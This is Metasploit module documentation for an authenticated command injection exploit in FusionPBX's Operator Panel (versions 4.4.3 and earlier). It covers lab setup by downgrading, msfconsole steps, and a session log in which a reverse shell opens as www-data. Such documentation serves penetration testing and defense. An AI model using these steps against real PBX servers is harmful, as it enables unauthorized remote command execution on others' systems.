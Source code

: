 ## Description

  This module exploits an authenticated command injection vulnerability
  in FusionPBX versions 4.4.3 and prior.

  The `exec.php` file within the Operator Panel permits users with
  `operator_panel_view` permissions, or administrator permissions,
  to execute arbitrary commands as the web server user by sending
  a `system` command to the FreeSWITCH event socket interface.


## Vulnerable Software

  This module has been tested successfully on FusionPBX version
  4.4.1 on Ubuntu 19.04 (x64).

  Software:

  * https://www.fusionpbx.com/download
  * https://github.com/fusionpbx/fusionpbx/releases

  At time of writing, a vulnerable version can be tested by using
  the relevant install script for the target platform from the download
  link above, which automatically installs all required dependencies,
  including FreeSWITCH and the latest version of FusionPBX.

  The version of FusionPBX can then be downgraded to a vulnerable version
  by replacing the web root directory with the contents of a vulnerable
  version, such as version 4.4.1, from the GitHub releases link above.

  On Ubuntu, downgrading can be performed as follows:

  ```
  mv /var/www/fusionpbx /var/www/fusionpbx-latest
  mkdir ~/hackyhackhack/ && cd ~/hackyhackhack/
  wget https://github.com/fusionpbx/fusionpbx/archive/4.4.1.zip
  unzip 4.4.1.zip
  mv fusionpbx-4.4.1 /var/www/fusionpbx
  ```

  In the future, downgrading may not be as simple as replacing the web
  root directory contents.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/fusionpbx_operator_panel_exec_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `set username <username>`
  5. Do: `set password <password>`
  6. Do: `run`
  7. You should get a new session


## Options

  **TARGETURI**

  The base path to FusionPBX (default: `/`)

  **USERNAME**

  The username for FusionPBX

  **PASSWORD**

  The password for FusionPBX


## Scenarios

  ```
  msf > use exploit/unix/webapp/fusionpbx_operator_panel_exec_cmd_exec 
  msf exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set rhosts 172.16.191.214
  rhosts => 172.16.191.214
  msf exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set username test
  username => test
  msf exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set password wBXxcY4LTAsMd46!
  password => wBXxcY4LTAsMd46!
  msf exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > run

  [*] Started reverse TCP double handler on 172.16.191.165:4444 
  [+] Authenticated as user 'test'
  [*] Sending payload (295 bytes) ...
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo ULzaVUoa3XPSZANH;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "ULzaVUoa3XPSZANH\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 1 opened (172.16.191.165:4444 -> 172.16.191.214:57626) at 2019-11-01 15:54:42 -0400

  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  pwd
  /
  uname -a
  Linux ubuntu-19-04-x64 5.0.0-32-generic #34-Ubuntu SMP Wed Oct 2 02:06:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  ```

